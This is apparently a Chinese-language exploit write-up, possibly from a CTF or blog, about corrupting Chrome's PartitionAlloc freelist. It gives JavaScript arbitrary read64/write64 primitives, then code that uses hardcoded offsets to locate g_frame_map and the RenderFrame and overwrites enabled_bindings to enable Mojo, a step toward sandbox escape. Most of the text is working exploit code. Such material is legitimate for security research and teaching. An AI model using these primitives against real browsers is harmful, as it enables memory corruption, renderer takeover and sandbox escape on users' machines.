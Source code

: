 当METADATA AREA的freelist指针成环后，我们就有了任意地址读写的能力了。通过我们下一次malloc就能拿到`METADATA AREA`块，通过改写`METADATA AREA`的freelist就能任意地址读写
>Arbitrary read consists of following steps:
> - Set first element in freelist to the destination address
> - Allocate an object. PartitionAlloc will do the “unlink”, by reading first pointer from the destination address and setting it to the  freelist. the object will be allocated at the destination address.
> - Read first element in freelist while decoding the value, this gives the leaked bytes.
> - Since the allocated object is initialized with zeroes, restore the value that was at the address by writing the leaked bytes to the allocated object.

```
function read64(rwHelper, addr) {
    rwHelper[0] = addr; // [1]
    var tmp = new BigUint64Array(1); // [2]
    tmp.buffer;
    gcPreventer.push(tmp);
    tmp[0] =  byteSwapBigInt(rwHelper[0]); // [3] [4]
    return tmp[0];
}
```

> Arbitrary write is implemented in the same manner:
> - backup the original address that was in the freelist
> - set first element in freelist to the destination address
> -  allocate an object. the object will be allocated at the destination address.
> - write value into object
> - fix freelist by setting address to the value that was backed up in the first step.
```
function write64(rwHelper, addr, value) {
    var backup = rwHelper[0]
    rwHelper[0] = addr;
    var tmp = new BigUint64Array(1);
    tmp.buffer;
    tmp[0] = value;
    gcPreventer.push(tmp);
    rwHelper[0] = backup;
}
```

最后启用`mojo`的[过程](https://googleprojectzero.blogspot.com/2019/04/virtually-unlimited-memory-escaping.html),需要改写`enabled_bindings`为0x2。
我们首先要拿到`g_frame_map `的指针，遍历能拿到当前`frame`的`RenderFrame`
```
frame_map_ptr = chrome_base + 0xaa693a8n
console.log("chrome base @ "+ hex(chrome_base))
console.log("g_frame_map @ "+ hex(frame_map_ptr))

frame_map_ptr += 0x8n;
begin_ptr = read64(freelist,frame_map_ptr);
console.log("begin_ptr @ "+ hex(begin_ptr))

node_ptr = read64(freelist,begin_ptr+0x28n);
console.log("node_ptr @ "+hex(node_ptr));

render_frame_ptr = node_ptr;
//render_frame_ptr = read64(freelist,render_frame_ptr1);
console.log("render_frame_ptr @ "+hex(render_frame_ptr));



enabled_bindings = render_frame_ptr + 0x580n;
console.log("enabled_bindings @ "+hex(enabled_bindings));

write64(freelist,enabled_bindings,0x2n);
```